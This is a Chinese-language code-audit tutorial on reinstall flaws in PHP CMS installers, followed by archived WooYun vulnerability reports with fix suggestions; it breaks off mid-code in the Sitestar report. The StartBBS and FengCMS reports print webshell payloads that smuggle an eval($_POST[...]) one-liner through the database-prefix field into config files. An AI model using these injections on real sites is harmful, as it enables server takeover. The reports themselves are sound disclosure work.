# 0x01 安装的问题

* * *

首先拿到一份源码 肯定是先 install 上。 而在安装文件上又会经常出现问题。

一般的安装文件在安装完成后 基本上都不会自动删除这个安装的文件 我遇到过的会自动删除的好像也就 qibocms 了。

其他的基本都是通过生成一个 lock 文件 来判断程序是否安装过了 如果存在这个 lock 文件了 就会退出了。 这里首先 先来说一下安装文件经常出现的问题。

## 根本无验证。

* * *

这种的虽然不多 但是有时还是会遇到个。 在安装完成后 并不会自动删除文件 又不会生成 lock 来判断是否安装过了。 导致了可以直接重装过

例子: [WooYun: PHPSHE B2C 重装。](http://www.wooyun.org/bugs/wooyun-2014-062047)

## 安装 file

* * *

因为 install 一般都会有 step 步骤啥的。。 Step 1 check 啥啥 step 2 是安装啥的。 而一些 cms 默认 step 是 1 而 step 又是 GET 来的 而他 check lock 的时候就是在 step1 里面。 这时候如果我们直接用 GET 提交 step 2 那么就直接进入下一步了 就没 check lock 了。

例如某 cms 中的安装文件

```php
if (empty ($step))
{
$step = 1;//当用户没有提交 step 的时候 赋值为 1
}
require_once ("includes/inc_install.php");
$gototime = 2000;

/*------------------------
显示协议文件
------------------------*/
if ($step == 1) //当 1 才检测 lock
{
if (file_exists('installed.txt'))
{
echo '<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
</head>
<body>
你已经安装过该系统，如果想重新安装，请先删除 install 目录下的 installed.txt 文件，然后再安装。
</body>
</html>';
exit;
}
include_once ("./templates/s1.html");
exit ();
}

/*------------------------
测试环境要求
------------------------*/
else
if ($step == 2) // 我们直接提交 step 为 2 就不 check lock 了
{ 
$phpv = @ phpversion();
$sp_os = $_ENV["OS"];
$sp_gd = @ gdversion();
$sp_server = $_SERVER["SERVER_SOFTWARE"];
$sp_host = (empty ($_SERVER["SERVER_ADDR"]) ? $_SERVER["SERVER_HOST"] : $_SERVER["SERVER_ADDR"]);
$sp_name = $_SERVER["SERVER_NAME"];
$sp_max_execution_time = ini_get('max_execution_time');
$sp_allow_reference = (ini_get('allow_call_time_pass_reference') ? '<font color=green>[√]On</font>' : '<font color=red>[×]Off</font>');
$sp_allow_url_fopen = (in 
```

## 变量覆盖导致重装

* * *

```php
header("Content-Type: text/html; charset={$lang}");    
foreach(Array('_GET','_POST','_COOKIE') as $_request){    
foreach($$_request as $_k => $_v) ${$_k} = _runmagicquotes($_v);    
}    
function _runmagicquotes(&$svar){    
if(!get_magic_quotes_gpc()){    
if( is_array($svar) ){    
foreach($svar as $_k => $_v) $svar[$_k] = _runmagicquotes($_v);    
}else{    
$svar = addslashes($svar);    
}    
}    
return $svar;    
}    
if(file_exists($insLockfile)){    
exit(" 程序已运行安装，如果你确定要重新安装，请先从 FTP 中删除 install/install_lock.txt！");    
}

foreach($$_request as $_k => $_v) ${$_k} = _runmagicquotes($_v); 
```

这里是一个经常遇到的一个变量覆盖。

导致了我们可以覆盖掉$insLockfile 从而让 file_exists 为 false 就不会退出了。导致再次重装。 这个变量覆盖不知道咋的 能在一些小 cms 的安装文件里看到。

之前看的 xdcms 和 frcms 都存在这个变量覆盖。

例子: [WooYun: frcms 重装系统](http://www.wooyun.org/bugs/wooyun-2014-073244)

## 判断 Lock 后 无 exit 的。

* * *

这个从早期的 phpdisk 的那个 header bypass 到现在的又遇到各种。

很久前的 phpdisk 的安装文件中。

判断是否存在 lock 文件 如果存在 lock 文件了 就会 header 到 index.php

但是 header 后 他并没有 exit 所以并不会退出 导致了又是一个重装。

跟这种类似的还有 javascript 弹个框 啥的 也没 exit 的。

例子: [WooYun: 开源轻论坛 StartBBS 前台 getshell](http://www.wooyun.org/bugs/wooyun-2013-045143)

例子: [WooYun: FengCMS 修复不当导致 getshell](http://www.wooyun.org/bugs/wooyun-2014-076648)

## 解析漏洞

* * *

这个也比较少, 就随便说句。 就是像 dedecms 很久以前的那样 在安装完成后会在 install.php rename 为 Install.php.bak 但是由于 apache 的解析漏洞 如果无法识别最后的一个后缀的话 就会向上解析,那么就又成 php 了。 然后又结合 dedecms 安装时的变量覆盖 又成重装了。

## 满足一些条件不会退出的。

* * *

这种例子也不算太多, 自己好像也没遇到过太多。

首先以之前发过的 sitestar 举例下

```php
if(file_exists($lockfile) && ($_a=='template' || $_a=='setting' || $_a=='check')) {    
exit('please delete install.lock!');    
} 
```

这里我们来理解一下这个逻辑, 这里的 file_exists($lockfile) 因为安装成功后 lockfile 肯定存在的 所以这里肯定会是 true 然后再看一下 这里是一个 && true true 才会进入语句块。 那么如果$_a 不为 template 、 setting 、 check 的话 那么后面的就为 false True and false => false 就不会进入这个语句块 就不会 exit 再配合后面的

```php
else if($_a=="create"){    
$link = mysql_connect($db_host,$db_user,$db_pwd); 
```

刚好有个其他的 如果$_a 为 create 那么就不会退出这个脚本

刚好这个 create 能达到 Getshell 的效果

例子: [WooYun: 建站之星 Sitestar 前台 Getshell 一枚](http://www.wooyun.org/bugs/wooyun-2014-054387)

剩下的还有 hdwiki 之前也有一个基本差不多这样的例子

```php
if (file_exists(HDWIKI_ROOT.'/data/install.lock') && $step != '8') {
echo "<font color='red'>{$lang['tipAlreadyInstall']}</font>";
exit();
} 
```

如果 step 为 8 的话 那么就不会执行 exit 了。

```php
case 8:
require_once HDWIKI_ROOT.'/config.php';
require_once HDWIKI_ROOT.'/lib/hddb.class.php';
require_once HDWIKI_ROOT.'/lib/util.class.php';
require_once HDWIKI_ROOT.'/lib/string.class.php';

$db = new hddb(DB_HOST, DB_USER, DB_PW, DB_NAME, DB_CHARSET);
//install 
$setting=$db->result_first('select `value` from '.DB_TABLEPRE.'setting WHERE `variable` = \'site_appkey\'');
if ($setting){
echo "<span style='font-size:20px;'>百科联盟开通成功.</span><a href='../'>进入首页</a>";
break;
}

//update info
$data = $_GET['info'];
$data = str_replace(' ', '+', $data);
$info = base64_decode($data);

if ($info){
$obj = unserialize($info);
if(is_array($obj)){
$url2 = 'http://localhost/count2/in.php?action=update&sitedomain='.$_SERVER['SERVER_NAME'].'&info='.$data;
$data = util::hfopen($url2);
//if gbk then toutf8
if ($lang['commonCharset'] == 'GBK'){
$obj['sitenick'] = string::hiconv($obj['sitenick'], 'gbk', 'utf-8'); 
```

刚好这里 step 8 又能执行一些特殊的操作。。 现在就把 case 8 注释掉了。

这里代码我就不复制过了 免得占篇幅。

这里差不多是我比较常遇到的一些安装文件经常遇到的问题了,突然想也想不到其他啥的了。

# WooYun-2014-62047：PHPSHE B2C 重装。

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-062047`](http://www.wooyun.org/bugs/wooyun-2014-062047)

## 简要描述

PHPSHE B2C 商城系统 v1.2(build 20140519 UTF8)

看到更新了 下一个下来看看。

我擦 敢判断一下 lock 吗?

## 详细说明

在 install/index.php

```php
error_reporting(E_ALL ^ E_NOTICE);

date_default_timezone_set('PRC');

header('Content-Type: text/html; charset=utf-8');

//改写不安全的 register_global 和防 sql 注入处理

if (@ini_get('register_globals')) {

    foreach($_REQUEST as $name => $value){unset($$name);}

}

$pe['host_root'] = 'http://'.str_ireplace(rtrim(str_replace('\\','/',$_SERVER['DOCUMENT_ROOT']), '/'), $_SERVER['HTTP_HOST'], str_replace('\\', '/', dirname(__FILE__))).'/../';

$pe['path_root'] = str_replace('\\','/',dirname(__FILE__)).'/../';

include("{$pe['path_root']}/include/class/cache.class.php");

include("{$pe['path_root']}/include/function/global.func.php");

if (get_magic_quotes_gpc()) {

    !empty($_GET) && extract(pe_trim(pe_stripslashes($_GET)), EXTR_PREFIX_ALL, '_g');

    !empty($_POST) && extract(pe_trim(pe_stripslashes($_POST)), EXTR_PREFIX_ALL, '_p');

}

else {

    !empty($_GET) && extract(pe_trim($_GET),EXTR_PREFIX_ALL,'_g');

    !empty($_POST) && extract(pe_trim($_POST),EXTR_PREFIX_ALL,'_p');

}

switch ($_g_step) {

    //#####################@ 配置信息 @#####################//

    case 'setting':

        if (isset($_p_pesubmit)) { 
```

没有判断 lock 。。可以直接重装。

轻松 Getshell。

## 漏洞证明



## 修复方案

在安装完成后 生成一个 lock

然后在安装的时候判断是否已经有 Lock 。

如果有 lock 就退出。

或者安装完成后直接删掉这文件把。。

这。。。。 不知道怎么说了。

# WooYun-2014-73244：frcms 重装系统

漏洞作者： [路人甲](http://www.wooyun.org/whitehats/路人甲)

来源：[`www.wooyun.org/bugs/wooyun-2014-073244`](http://www.wooyun.org/bugs/wooyun-2014-073244)

## 简要描述

重装了 之后 可以轻松 getshell。

## 详细说明

在 install/index.php 中

```php
header("Content-Type: text/html; charset={$lang}");

foreach(Array('_GET','_POST','_COOKIE') as $_request){

    foreach($$_request as $_k => $_v) ${$_k} = _runmagicquotes($_v);

}

function _runmagicquotes(&$svar){

    if(!get_magic_quotes_gpc()){

        if( is_array($svar) ){

            foreach($svar as $_k => $_v) $svar[$_k] = _runmagicquotes($_v);

        }else{

            $svar = addslashes($svar);

        }

    }

    return $svar;

}

if(file_exists($insLockfile)){

    exit(" 程序已运行安装，如果你确定要重新安装，请先从 FTP 中删除 install/install_lock.txt！");

} 
```

(file_exists($insLockfile)

这里判断了是否 lock lock 了就退出。

```php
foreach(Array('_GET','_POST','_COOKIE') as $_request){

    foreach($$_request as $_k => $_v) ${$_k} = _runmagicquotes($_v); 
```

对循环出来的 再生成了一个变量 所以可以直接覆盖掉$insLockfile 造成重装。

重装后 可以轻松的 getshell。

但是这里存在一个变量覆盖。



然后覆盖掉$insLockfile



可以看到可以重装了 然后直接对 step 4 post 就能重装了。

## 漏洞证明


## 修复方案

修改变量覆盖的地方。

# WooYun-2013-45143：开源轻论坛 StartBBS 前台 getshell

漏洞作者： [phith0n](http://www.wooyun.org/whitehats/phith0n)

来源：[`www.wooyun.org/bugs/wooyun-2013-045143`](http://www.wooyun.org/bugs/wooyun-2013-045143)

## 简要描述

直接写一句话 getshell。 所有测试都是在本地进行的哦，我立志做一个好孩纸~！

## 详细说明

心血来潮读读代码。StartBBS 界面挺清爽的，体积也小。下载下来安装。

　　安装好后发现根目录下多了一个 install.lock，一般的 cms 为了防止被重安装就会在目录下生成一个类似的文件，下次有人再访问安装脚本的时候，脚本会检测，如果目录下有这个文件就提示“请删除后再安装”。

　　原本应该是没有任何问题的。但我们来到安装脚本，/app/controllers/install.php 中，查看它是怎么处理的：

```php
class Install extends Install_Controller

{

    function __construct ()

    {

        parent::__construct();

        $this->load->library('myclass');

        $file=FCPATH.'install.lock';

        if (file_exists($file)){

            $this->myclass->notice('alert("系统已安装过");window.location.href="'.site_url().'";');

        }

    } 
```

　　看到这里我就笑了。构造函数里检查是否存在 install.lock，然后用 javascript 的方式告诉用户“系统已安装过”，然后跳转。但是这个脚本根本还没有结束嘛，这个类里的函数都可以运行，并不因为返回了一个 window.location.href 就停止运行。（this->myclass->notice()中也没有停止运行的代码）

　　然后，在往下翻，就能看到安装的函数：

```php
public function step($step)

    {

        $data['step']=$step;

        if($step==1 || $step==2){

            $data['permission'] = $this->_checkFileRight();

            $this->load->view('install',$data);

        }

        if($step==3){

            $this->_install_do();

        }

    }

    function _install_do()

    {

        $data['step']=3;

        if($_POST){    

                $dbhost = $this->input->post('dbhost');

                $dbport = $this->input->post('dbport');

                $dbname = $this->input->post('dbname');

                $dbuser = $this->input->post('dbuser');

                $dbpwd = $this->input->post('dbpwd')?$this->input->post('dbpwd'):'';

                $dbprefix = $this->input->post('dbprefix');

                $userid = $this->input->post('admin');

                $pwd = md5($this->input->post('pwd'));

                $email = $this->input->post('email');

                $sub_folder = '/'.$this->input->post('base_url').'/';

                $conn = mysql_connect($dbhost.':'.$dbport,$dbuser,$dbpwd);

                if (!$conn) {

                    die('无法连接到数据库服务器，请检查用户名和密码是否正确');

                }

                if($this->input->post('creatdb')){

                    if([[email protected]](/cdn-cgi/l/email-protection)_query('CREATE DATABASE IF NOT EXISTS '.$dbname)){

                        die('指定的数据库('.$dbname.')系统尝试创建失败，请通过其他方式建立数据库');

                    }

                }

                if(!mysql_select_db($dbname,$conn)){

                    die($dbname.'数据库不存在，请创建或检查数据名.');

                }

                    $sql = file_get_contents(FCPATH.'app/config/startbbs.sql');

                    $sql = str_replace("sb_",$dbprefix,$sql);

                    $explode = explode(";",$sql);

                    $data['msg1']="创建表".$dbname."成功，请稍后……<br/>";

                     foreach ($explode as $key=>$value){

                        if(!empty($value)){

                            if(trim($value)){

                                mysql_query($value.";");

                            }

                        }

                      }

                    $password = $pwd;

                      $ip=$this->myclass->get_ip();

                      $insert= "INSERT INTO ".$dbprefix."users (group_type,gid,is_active,username,password,email,regtime,ip) VALUES ('0','1','1','".$userid."','".$password."','".$email."','".time()."','".$ip."')";

                      mysql_query($insert);

                    mysql_close($conn);

                    $data['msg2']="安装完成，正在保存配置文件，请稍后……"; 

                    $dbconfig = "<?php  if ( ! defined('BASEPATH')) exit('No direct script access allowed');\n"

                    ."\$active_group = 'default';\n"

                    ."\$active_record = TRUE;\n"

                    ."\$db['default']['hostname'] = '".$dbhost."';\n"

                    ."\$db['default']['port'] = '".$dbport."';\n"

                    ."\$db['default']['username'] = '".$dbuser."';\n"

                    ."\$db['default']['password'] = '".$dbpwd."';\n"

                    ."\$db['default']['database'] = '".$dbname."';\n"

                    ."\$db['default']['dbdriver'] = 'mysql';\n"

                    ."\$db['default']['dbprefix'] = '".$dbprefix."';\n"

                    ."\$db['default']['pconnect'] = TRUE;\n"

                    ."\$db['default']['db_debug'] = TRUE;\n"

                    ."\$db['default']['cache_on'] = FALSE;\n"

                    ."\$db['default']['cachedir'] = 'app/cache';\n"

                    ."\$db['default']['char_set'] = 'utf8';\n"

                    ."\$db['default']['dbcollat'] = 'utf8_general_ci';\n"

                    ."\$db['default']['swap_pre'] = '';\n"

                    ."\$db['default']['autoinit'] = TRUE;\n"

                    ."\$db['default']['stricton'] = FALSE;";

                    $file = FCPATH.'/app/config/database.php';

                    file_put_contents($file,$dbconfig);

                    //保存 config 文件

                    if($sub_folder){

                        $this->config->update('myconfig','sub_folder', $sub_folder);

                    }

                    $encryption_key = md5(uniqid());

                    if($encryption_key){

                        $this->config->update('myconfig','encryption_key', $encryption_key);

                    }

                    $data['msg3']="保存配置文件完成！";

                    touch(FCPATH.'install.lock'); 

                    $data['msg4']="创建锁定安装文件 install.lock 成功";

                    $data['msg5']="安装 startbbs 成功！";

        }

        $this->load->view('install',$data);

    } 
```

　　当 step 函数的参数为 3 时，就执行安装函数 _install_do()，这个函数里初始化了数据库，并把数据库配置文件写入了“/app/config/database.php”。于是，我们可以构造一下数据包直接把一句话写入到这个配置文件里。

　　我们看到，这个函数接收了许多 post 数据：

　　$dbhost = $this->input->post('dbhost');

　　$dbport = $this->input->post('dbport');

　　$dbname = $this->input->post('dbname');

　　$dbuser = $this->input->post('dbuser');

　　$dbpwd = $this->input->post('dbpwd')?$this->input->post('dbpwd'):'';

　　$dbprefix = $this->input->post('dbprefix');

　　$userid = $this->input->post('admin');

　　$pwd = md5($this->input->post('pwd'));

　　$email = $this->input->post('email');

　　$sub_folder = '/'.$this->input->post('base_url').'/';

　　其中 dbhost、dbport、dbname、dbuser、dbpwd 都不能随便乱写，乱写的话安装就会出错，而 userid、pwd、email、sub_folder 都是写入数据库的，不写入配置文件。所以就剩下 dbprefix 了，所以我们可以这样构造这个字段：

　　dbprefix=sb_';@eval ($_POST[101]);$xxx='

## 漏洞证明

因为这个重安装漏洞破坏性太大，getshell 以后网站等于重置了，所以我没有在网上测试。测试都在本地进行~

首先在外面找一个可以外连的 mysql 账号，为的是让安装成功进行。

我这里在我 vps 上新建了一个账号 test_db_user，然后构造下面的这个数据包，发送：



等待一会发现返回了安装成功提示。因为我在本地测试的，所以我来到网站目录下，/app/config/database.php



可以看到，一句话已经写入了。菜刀连接 index.php 就可以了，直接连这个数据库配置文件是不行的。



## 修复方案

```php
function __construct ()

    {

        parent::__construct();

        $this->load->library('myclass');

        $file=FCPATH.'install.lock';

        if (file_exists($file)){

            $this->myclass->notice('alert("系统已安装过");window.location.href="'.site_url().'";');

            exit;

        }

    } 
```

# WooYun-2014-76648：FengCMS 修复不当导致 getshell

漏洞作者： [xiaoL](http://www.wooyun.org/whitehats/xiaoL)

来源：[`www.wooyun.org/bugs/wooyun-2014-076648`](http://www.wooyun.org/bugs/wooyun-2014-076648)

## 简要描述

FengCMS 修复不当导致 getshell，属于修复不当，跟其他的没重复了- -，对审核同学造成的不便深感歉意。

## 详细说明

之前提交过一次跟[`**.**.**.**/bugs/wooyun-2014-067508`](http://**.**.**.**/bugs/wooyun-2014-067508)

漏洞重复了。现在重新看一下。发现修复的有问题，而且 install 目录默认是不会自动删除的，依然可以 getshell！

```php
header("Content-type:text/html;charset=utf-8");

define("TPL_INCLUDE",1);

// 定义当前路径

define('ABS_PATH',dirname(__FILE__));

define('ROOT_PATH',dirname(ABS_PATH));

if(!$_GET['step'])$_GET['step']=1;

$config_file=ROOT_PATH.'/config.php';

$install_file=ABS_PATH.'/install.sql';

//这里是修改添加的代码，由于是输出 javascript，所以可以无视掉

if(file_exists(ROOT_PATH.'/upload/INSTALL')){

  echo '<script type="text/javascript">alert("系统已安装，如需要重新安装，请手工删除 upload 目录下的 INSTALL 文件！");</script>';

  echo '<meta http-equiv="refresh" content="0;url=/">';

} 
```

所以直接进行 setp = 4 的步骤，其中只有 DB_PREFIX 字段不影响，可以用来 getshell。

## 漏洞证明

直接访问 URL：

**.**.**.**/install/index.php?host=localhost&user=root&password=root&dbname=hello&prefix=f_');@eval($_POST[101]);('&url_type=1&step=4







## 修复方案

echo 完了

exit()一下

# WooYun-2014-54387：建站之星 Sitestar 前台 Getshell 一枚

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-054387`](http://www.wooyun.org/bugs/wooyun-2014-054387)

## 简要描述

看 sitestar 在某数字公司还是属于一般应用的, 就准备提数字了。 太坑了 然后果断拒绝提交详情。 还是提到乌云来把。

不知道 sitestar 在乌云是不是属于一般应用的? 狗哥给个回应哈。

Sitestar 前台 Getshell。 无需登录。

## 详细说明

在官方论坛上下的最新版

在 install/index.php 中

```php
define('IN_CONTEXT', 1);

include_once('load.php');

?> 
```

包含进来 那再继续看看。

```php
$lockfile = ROOT.'/install.lock';

$pattern_db = '/[0-9a-zA-Z]*$/';

if(!preg_match($pattern_db, $db_name)||!preg_match($pattern_db, $db_user)){

    echo '1001';exit;

}

if(file_exists($lockfile) && ($_a=='template' || $_a=='setting' || $_a=='check')) {

        exit('please delete install.lock!');

} 
```

这里判断了 Lock 而且 if(file_exists($lockfile) && ($_a=='template' || $_a=='setting' || $_a=='check')

关键这里是一个 and 而不是一个 or 只要不满足后面的 也就不会退出了。

继续看后面的码。

```php
if($_a=='template'){

    include P_TPL."/template.php";

}else if($_a=='check'){

    include P_TPL."/check.php";

}else if($_a=='setting'){

    $default_tpl = ParamHolder::get("default_tpl","jixie-110118-a16");

    $_SESSION['default_tpl'] = $default_tpl;

    include P_TPL."/setting.php";

}else if($_a=='result'){

    $domain = $_SERVER['HTTP_HOST'];

    if(isset($_SERVER['SERVER_ADDR'])){

        $ip = $_SERVER['SERVER_ADDR'];

    }else{

        $ip='**.**.**.**';

    }

    $version = 'sitestar_v2.7_build131012';

    $system = preg_replace('/\s/','',PHP_OS);

    $vphp = PHP_VERSION;

    $vmysql = $_SESSION['vmysql'];

    $tpl_name = $_SESSION['default_tpl'];

    $http = new Http("http://**.**.**.**/feedback.php?domain=$domain&ip=$ip&version=$version&vphp=$vphp&vmysql=$vmysql&tpl_name=$tpl_name&vos=$system");

    $http->get();

    include P_TPL."/result.php";

    create_file($version);

}else if($_a=='checkconnection'){

    $link = @mysql_connect($db_host,$db_user,$db_pwd);

    if (!$link) {

        echo '1001';

        exit;

    }

    $r = mysql_select_db($db_name,$link);

    if(!$r){

        echo '1002';

        exit;

    }

}else if($_a=="create"){

    $link = mysql_connect($db_host,$db_user,$db_pwd);

    if (!$link) {

        echo '1001';

        exit;

    }

    $r = mysql_select_db($db_name,$link);

    if(!$r){

        echo '1002';

        exit;

    }

    $rtn = create_table($db_name,$db_prefix,INSTALL_ROOT.'/../sql/basic.sql');

    if(!empty($rtn)){

        echo '1005';

        exit;

    }

    mysql_query("INSERT INTO `".$db_prefix."parameters` (`id`, `key`, `val`) VALUES (NULL, 'DEFAULT_TPL', '".$_SESSION['default_tpl']."')");

    //uploadcopy(ROOT."/template/".$_SESSION['default_tpl']."/".$_SESSION['default_tpl']."_2_upload/image",ROOT."/upload/image");

    //uploadcopy(ROOT."/template/".$_SESSION['default_tpl']."/".$_SESSION['default_tpl']."_2_upload/flash",ROOT."/upload/flash");

    if($demo=='1'){

        create_table($db_name,$db_prefix,ROOT."/template/".$_SESSION['default_tpl']."/".$_SESSION['default_tpl'].'_2_sample.sql');

    } else {

        mysql_query("INSERT INTO `".$db_prefix."static_contents` (`id` ,`title` ,`content` ,`create_time` ,`s_locale` ,`published` ,`for_roles`) VALUES ('1', '', NULL , '', 'zh_CN', '1', '{member}{admin}{guest}');");

        mysql_query("INSERT INTO `".$db_prefix."static_contents` (`id` ,`title` ,`content` ,`create_time` ,`s_locale` ,`published` ,`for_roles`) VALUES ('2', '', NULL , '', 'zh_CN', '1', '{member}{admin}{guest}');");

